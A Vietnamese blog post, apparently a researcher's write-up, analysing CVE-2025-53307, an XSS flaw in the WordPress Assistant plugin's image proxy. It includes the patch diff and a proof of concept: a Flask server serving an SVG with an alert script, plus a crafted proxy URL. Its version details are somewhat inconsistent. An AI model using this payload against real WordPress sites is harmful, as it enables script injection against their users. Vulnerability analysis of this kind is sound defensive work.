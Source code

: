 # CVE-2025-53307 Analysis & POC


<!--more-->

Lỗ hổng xảy ra trên plugin **Assistant** của WordPress trước phiên bản **3.6.2**. Điều này có thể cho phép kẻ tấn công chèn mã độc (ví dụ: script chuyển hướng, quảng cáo, hoặc các payload HTML khác) vào website, và những mã đó sẽ được thực thi khi khách truy cập mở trang.

* **CVE ID**: [CVE-2025-53307](https://www.cve.org/CVERecord?id=CVE-2025-53307)
* **Product**: [WordPress Assistant Plugin](https://wordpress.org/plugins/assistant/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 1.5.2
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Assistant**:  v1.5.2(vul) và v1.5.3(fix)
* **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

## Analysis

Ứng dụng hiển thị trực tiếp nội dung hình ảnh do người dùng cung cấp thông qua URL **mà không xác thực và kiểm tra đầy đủ MIME type**. Điều này dẫn đến việc kẻ tấn công có thể cung cấp một tập tin giả dạng hình ảnh và khi được trình duyệt xử lý, nó sẽ thực thi mã độc => gây ra lỗ hổng XSS.

### Patch Diff

Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.

{{< figure src="patch_diff.png" caption="Diff giữa bản lỗi và bản vá" >}}

Trong trường hợp này, sự khác biệt giữa 2 phiên bản khá nhiều, để thuận lợi cho việc truy vết, ta có thể xem [change log](https://wordpress.org/plugins/assistant/#developers) để biết bản vá lỗ hổng XSS ở đâu:

```
Changelog
1.5.3 ( 2025-09-08 )

- Changes to support the integration of Assistant in Beaver Builder version 2.10
- Fixed dark mode issues on the Home app and sidebar.
- Security: Fixed a potential XSS vulnerability in the "image proxy"
```

👉 Lỗ hỗng nằm trong file **backend/src/Hooks/ImageProxy.php**, ta quan sát sự khác biệt của 2 phiên bản:

{{< figure src="patch_diff1.png" caption="Sự khác biệt trong hàm render_image của ImageProxy.php" >}}

Sự thay đổi xảy ra ở hàm `render_image` với chức năng:

* Nhận tham số url từ query string `($_GET['url'])`.
* Gửi request từ server đến URL đó để tải nội dung.
* Chống **ssrf** bằng `wp_safe_remote_get`.
* Nếu nội dung có header **Content-Type** bắt đầu bằng `image/`, thì:

  * Gửi lại header **Content-Type** đó cho client.
  * In (echo) toàn bộ nội dung file ra cho trình duyệt.
* Trình duyệt hiển thị hình ảnh **không phải trực tiếp từ nguồn gốc mà thông qua server WordPress**.

> SVG cũng có **Content-Type** bắt đầu bằng `image/` và có thể chứa mã JavaScript bên trong => XSS có thể xảy ra.

Bản vá đã thêm một lớp kiểm tra **MIME type** thực sự của file để tránh kịch bản XSS bằng SVG hay file giả mạo.

```php
$filesystem = self::filesystem();
$tmpfile    = tempnam( '/tmp', 'assistant' );
$filesystem->put_contents( $tmpfile, $body );
$validimage = wp_get_image_mime( $tmpfile );
$filesystem->delete( $tmpfile );

if ( ! $validimage ) {
    return false;
}
```

[`wp_get_image_mime()`](https://github.com/WordPress/wordpress-develop/blob/6.8.2/src/wp-includes/functions.php#L3330-L3417) sử dụng hàm xử lý ảnh nội bộ (dựa trên dữ liệu binary của file) để xác định MIME thực sự.

Nếu kết quả không phải là ảnh hợp lệ => return **false**.

### How it work?

Trong `__construct` của class `ImageProxy`, phương thức `render_image()` được gọi thông qua callback của action hook `'init'`. Hook `'init'` được thực thi rất sớm trong quá trình load WordPress, sau khi các đối tượng core được khởi tạo nhưng trước khi gửi output ra trình duyệt.

`render_image` chỉ được gọi khi người dùng hiện tại có quyền chỉnh sửa bài viết của người khác và tham số `$_GET['fl_asst_image_proxy']` tồn tại.

👉 Khi truy cập `/wp-admin/?fl_asst_image_proxy=value1&url=http://yoursite/image-path` thì `render_image` sẽ được gọi và trả về nội dung hình ảnh cho trình duyệt hiển thị.

## Exploit

### Detect XSS

Tạo 1 trang [web](https://github.com/w41bu1/w41test) đơn giản trả về nội dung SVG chứa XSS payload

```py
from flask import Flask, Response

app = Flask(__name__)

@app.route('/')
def home():
    return 'Hello, World!'

@app.route('/svg')
def about():
    svg = """<?xml version="1.0" encoding="UTF-8"?>
    <svg xmlns="http://www.w3.org/2000/svg">
        <script>alert(document.domain)</script>
    </svg>"""
    return Response(svg, mimetype="image/svg+xml")
```

Gửi request chứa **url param** trỏ đến `https://yoursite/svg`

```
http://localhost/wp-admin/?fl_asst_image_proxy=abc&url=https://yoursite/svg
```

👉 Thành công với `Unauthenticated` vì chỉ cần người dùng có quyền, khi truy cập url => XSS xảy ra trên trình duyệt của nạn nhân. Attacker không cần đăng nhập.

{{< figure src="detect.png" caption="SVG chứa XSS payload được hiển thị qua image proxy" >}}

## Conclusion

Lỗ hổng **CVE-2025-53307** trong plugin WordPress Assistant (**<= v1.5.2**) cho phép XSS thông qua `render_image()` vì không kiểm tra **MIME type** thực của file. Bản vá **v1.5.3** đã khắc phục bằng cách xác thực nội dung file trước khi trả về trình duyệt.

**Key takeaways**:

* Không tin cậy vào **Content-Type header** từ **HTTP response**.
* Luôn xác thực **MIME type** thực sự của file.

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress WordPress Assistant Plugin <= 1.5.2 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/assistant/vulnerability/wordpress-assistant-plugin-1-5-2-cross-site-scripting-xss-vulnerability)


---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-10-03-cve-2025-53307/  

